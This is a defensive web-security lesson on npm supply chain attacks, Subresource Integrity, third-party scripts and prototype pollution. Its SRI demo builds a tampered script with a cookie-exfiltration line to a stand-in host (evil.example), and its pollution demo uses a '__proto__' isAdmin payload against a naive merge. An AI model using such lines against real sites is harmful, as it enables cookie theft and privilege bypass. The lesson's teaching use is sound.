

## What this lesson covers

Code you did not write but run: dependencies from npm and third-party scripts. How supply chain attacks work, using 2025 as the example (the `chalk` and `debug` compromise, the Shai-Hulud worm), what changed in npm and pnpm, how to protect a project (the lock file, install scripts, delaying new versions, audits), Subresource Integrity for CDN scripts, third-party tags on the page, and prototype pollution through unsafe object merging. The risk is third in the OWASP Top 10:2025 as its own category. The examples run in Node.js.

## Why it is a frontend risk

A typical app pulls in hundreds or thousands of packages, most of them transitively. Each one runs **twice**: on install (`preinstall` and `postinstall` scripts on the developer's machine and in CI, with access to tokens and keys) and in the bundle (in the user's browser, with your origin's privileges).



**September 2025** showed both paths:

- **On September 8**, a phishing email posing as npm support stole a maintainer's account, and infected versions of 18 popular packages were released, including `chalk` and `debug` (billions of downloads a week). The code in the bundle swapped cryptocurrency wallet addresses in the page's requests.
- **From September 14**, the **Shai-Hulud** worm: the install script looked for npm, GitHub and cloud tokens on the machine, published them, and released infected versions of all packages of the token's owner. A second wave came in November 2025.
- GitHub's response: publishing only through **trusted publishing** (CI publishes via OIDC without long-lived tokens) or locally with mandatory 2FA, granular tokens valid for up to 7 days, and phasing out classic tokens.

## How to protect a project

| Measure | What it gives |
|---|---|
| A lock file in the repository, `npm ci` or `pnpm install --frozen-lockfile` in CI | Exactly the reviewed versions are installed, not "the latest matching one" |
| Install scripts only from a list | pnpm 10+ does not run dependency scripts without `allowBuilds`; in npm `--ignore-scripts` or `ignore-scripts=true` |
| Delaying new versions | In pnpm 11 `minimumReleaseAge` defaults to 1 day: malicious versions are usually found and removed within hours |
| Package sources | `blockExoticSubdeps` in pnpm forbids transitive dependencies from git and direct URLs |
| Audits and updates | `pnpm audit`, `npm audit`, Dependabot or Renovate; updates in batches with a review of lock file changes |
| Fewer dependencies | A 10-line package is replaced with a built-in API (`structuredClone`, `Intl`, `Object.groupBy`) or your own code |
| Secrets in CI | Short-lived tokens, separate permissions for installing and publishing, trusted publishing for your own packages |

## Subresource Integrity

A script or stylesheet from a third-party CDN is included with the hash of the expected content. If the file on the CDN changed (a CDN breach, a swapped version), the browser will not run it.

```ts run
// Subresource Integrity: the page states the hash of the file it expects from the CDN.
async function integrity(content: string) {
  const digest = await crypto.subtle.digest('SHA-384', new TextEncoder().encode(content))
  return 'sha384-' + btoa(String.fromCharCode(...new Uint8Array(digest)))
}

const published = 'export function track(event) { navigator.sendBeacon("/collect", event) }'
const expected = await integrity(published)
console.log(`<script src="https://cdn.example/analytics@2.1.0.js" integrity="${expected.slice(0, 22)}…" crossorigin="anonymous">`)

// Later the CDN serves a changed file: one extra line that sends cookies elsewhere.
const served = published + '\nfetch("https://evil.example/?c=" + document.cookie)'
for (const [label, body] of [['original file', published], ['tampered file', served]]) {
  const ok = (await integrity(body)) === expected
  console.log(label.padEnd(14), ok ? 'hash matches: the script runs' : 'hash differs: the browser blocks the script')
}
```

```output
<script src="https://cdn.example/analytics@2.1.0.js" integrity="sha384-fJIVXs94MLV8UOb…" crossorigin="anonymous">
original file  hash matches: the script runs
tampered file  hash differs: the browser blocks the script
```

- `integrity` is `sha384-` plus the base64 of the content's SHA-384; the browser hashes the downloaded file and compares. `crossorigin="anonymous"` is required for a script from another origin: without CORS the browser cannot check the response.
- SRI works only for **immutable** files with a version in the address. An analytics script at "the latest version", which the vendor changes without notice, cannot be protected this way: it is served from your own domain after review, or isolated.
- Your own bundle with a hash in the file name, served from your own domain, usually does not need SRI; a CSP is useful there (the `sec-csp` lesson).

## Third-party scripts on the page

A tag manager, analytics, chat and A/B tests run with your origin's privileges: they see form fields and cookies without `HttpOnly`, and can change the payment page. Attacks on checkout scripts (Magecart) stole card numbers this way for years.

- A minimum of third-party tags on login and payment pages; the provider's card field in its iframe, not on your page.
- Review and an allowlist of tags in the tag manager; marketing cannot add an arbitrary script without a check.
- A strict CSP limits which scripts the tag manager loads; the performance cost of third-party scripts is in the `perf-resources` lesson.

## Prototype pollution

A separate class of vulnerabilities in JavaScript code, your own and libraries': changing `Object.prototype` through data that came from outside.

```ts run
// A naive deep merge, as in many hand-written "settings" utilities.
function merge(target: any, source: any) {
  for (const key of Object.keys(source)) {
    if (typeof source[key] === 'object' && source[key] !== null) {
      target[key] ??= {}
      merge(target[key], source[key])
    } else target[key] = source[key]
  }
  return target
}

// JSON from a request body or a URL: JSON.parse creates an own key named "__proto__".
const body = JSON.parse('{"theme": "dark", "__proto__": {"isAdmin": true}}')
merge({}, body)
const anotherUser: any = {}
console.log('any object is now admin:', anotherUser.isAdmin)
delete (Object.prototype as any).isAdmin

// Safer: skip dangerous keys, or keep untrusted data out of plain objects.
const BLOCKED = new Set(['__proto__', 'constructor', 'prototype'])
function safeMerge(target: any, source: any) {
  for (const key of Object.keys(source)) {
    if (BLOCKED.has(key)) continue
    if (typeof source[key] === 'object' && source[key] !== null) safeMerge((target[key] ??= {}), source[key])
    else target[key] = source[key]
  }
  return target
}
safeMerge({}, body)
console.log('after safeMerge:', ({} as any).isAdmin)
const settings = new Map(Object.entries(body)) // a Map has no prototype keys to pollute
console.log('Map keys:', [...settings.keys()].join(', '))
```

```output
any object is now admin: true
after safeMerge: undefined
Map keys: theme, __proto__
```

- `JSON.parse` creates an ordinary property named `__proto__`, while the assignment `target['__proto__']` during a merge changes the prototype. After that **every object** has `isAdmin`.
- Consequences: bypassed checks (`if (user.isAdmin)`), XSS through "gadgets" in libraries that read settings from an object without its own property, on the server up to code execution.
- In lodash before 4.17.11, `merge`, `mergeWith` and `defaultsDeep` were vulnerable this way; hand-written merge and URL parameter parsing functions are vulnerable to this day.
- Protection: skip the keys `__proto__`, `constructor`, `prototype`; keep request data in a `Map` or in objects without a prototype (`Object.create(null)`); validate the shape of input with a schema (Zod, Valibot) before use.

## Key points

- A dependency runs on install (access to tokens and CI) and in the bundle (your origin's privileges); A03 in the OWASP Top 10:2025.
- 2025: phishing of the `chalk` and `debug` maintainer, the Shai-Hulud worm through install scripts; npm moved to trusted publishing and short-lived tokens.
- Protection: a lock file and installing strictly from it, install scripts from a list, delaying new versions (pnpm 11: 1 day), audits, fewer dependencies.
- SRI checks the hash of a CDN script; it needs `crossorigin` and works only for immutable files.
- Third-party tags see everything on the page: a minimum on login and payment pages, the card field in the provider's iframe.
- Prototype pollution: merging untrusted data changes `Object.prototype`; skip dangerous keys, use `Map` and validate with a schema.
